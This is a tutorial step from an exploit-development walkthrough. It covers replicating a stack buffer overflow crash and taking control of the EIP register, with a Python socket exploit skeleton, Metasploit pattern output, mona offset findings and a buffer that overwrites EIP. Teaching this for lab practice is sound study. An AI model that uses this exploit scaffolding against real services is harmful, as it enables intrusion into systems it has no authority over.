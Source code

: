 # 5. Crash Replication & Controlling EIP

The following skeleton exploit code can be used for the rest of the buffer overflow exploit, add `send` and `recv` commands like you did in fuzzing:

```python
import socket

ip = "10.0.0.1"
port = 21

prefix = ""
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
	s.connect((ip, port))
	print("Sending evil buffer...")
	s.send(buffer + "\r\n")
	print("Done!")
except:
	print("Could not connect.")
```

Using the buffer length which caused the crash, generate a unique buffer so we can determine the offset in the pattern which overwrites the EIP register, and the offset in the pattern to which other registers point. Create a pattern that is 400 bytes larger than the crash buffer, so that we can determine whether our shellcode can fit immediately. If the larger buffer doesn't crash the application, use a pattern equal to the crash buffer length and slowly add more to the buffer to find space.

```bash
$ /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 600
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
```

While the unique buffer is on the stack, use mona's findmsp command, with the distance argument set to the pattern length.

```
!mona findmsp -distance 600
...
[+] Looking for cyclic pattern in memory
Cyclic pattern (normal) found at 0x005f3614 (length 600 bytes)
Cyclic pattern (normal) found at 0x005f4a40 (length 600 bytes)
Cyclic pattern (normal) found at 0x017df764 (length 600 bytes)
EIP contains normal pattern : 0x78413778 (offset 112)
ESP (0x017dfa30) points at offset 116 in normal pattern (length 484)
EAX (0x017df764) points at offset 0 in normal pattern (length 600)
EBP contains normal pattern : 0x41367841 (offset 108)
...
```

Note the EIP offset (112) and any other registers that point to the pattern, noting their offsets as well. It seems like the ESP register points to the last 484 bytes of the pattern, which is enough space for our shellcode.

Create a new buffer using this information to ensure that we can control EIP:

```python
prefix = ""
offset = 112
overflow = "A" * offset
retn = "BBBB"
padding = ""
payload = "C" * (600-112-4)
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix
```

Crash the application using this buffer, and make sure that EIP is overwritten by B's (\x42) and that the ESP register points to the start of the C's (\x43).
